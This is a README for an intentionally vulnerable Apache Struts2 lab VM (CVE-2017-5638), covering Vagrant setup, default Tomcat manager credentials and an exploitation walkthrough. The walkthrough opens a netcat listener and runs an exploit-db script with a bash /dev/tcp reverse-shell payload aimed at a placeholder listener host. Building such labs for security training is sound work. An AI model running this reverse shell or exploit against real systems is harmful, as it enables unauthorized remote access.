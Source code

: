 # A Vulnerable Apache Struts Application

**Confirmed Vulnerabilities**

| CVE       | Description                                   | URL                                                          |
|-----------|-----------------------------------------------|--------------------------------------------------------------|
| 2017-5638 | Remote Command Vulnerability in Apache Struts | https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638 |

**Requirements:**

* [Vagrant](https://www.vagrantup.com/docs/installation/)
* [VirtualBox](https://www.virtualbox.org/wiki/Downloads)
* [SearchSploit](https://www.virtualbox.org/wiki/Downloads) (Optional)

**Setup**

```
$ git clone https://github.com/evolvesecurity/vuln-struts2-vm.git
$ cd vuln-struts2-vm
```

**Build Virtual Machine**

**IMPORTANT:** The VM currently uses "public networking" (See: Vagrantfile). This should only be used on a secure LAN. Otherwise, "private networking" should be used.

See: https://www.vagrantup.com/docs/virtualbox/networking.html

```
$ vagrant up # this will raise and provision your machine
$ vagrant ssh
# to get the IP of your machine if unknown:
ubuntu@strut $ ip route
```

**Verification:**

You should no visit http://IP:8080 to see if tomcat8 is working. If the url is unavailable, try http://IP:8080/manager with the credentials "tomcat" and "tomcat".

**Exploitation:**

Open a terminal, then run the command below to start a TCP listner.

```
$ nc -nvlp 5556
```

Open a separate terminal, then run the commands to carry out the exploit with a reverse shell. Replace _IP-TARGET_ with the target IPv4 address. Replace _IP-LISTNER_ with your listening host's IPv4 address.

```
# download exploit from https://www.exploit-db.com/exploits/41570/
# or use searchsploit
$ searchsploit Struts #optional
$ cp /path/to/linux/webapps/41570.py exploit.py
$ python exploit.py "http://IP-TARGET:8080/http-session/hello.action" "bash -i >& /dev/tcp/IP-LISTENER/5556 0>&1"
```

It may be necessary to modify your exploit.py in order to pass in the command you want.

One option to confirm your exploit is to simply setup a netcat listener and connect back to it.

**Troubleshooting:**

If you wish to ssh directly into your vm without using the ```vagrant ssh``` command, you need to set a password for the ubuntu user. First, ssh into the vm using ```vagrant ssh``` and then perform a password reset using ```passwd ubuntu```.

**Credits:**

The source code for the Apache Struts2 applications was taken from https://github.com/apache/struts-examples. The pom.xml files were modified slightly in order to downgrade Apache Struts2 to a vulnerable version.
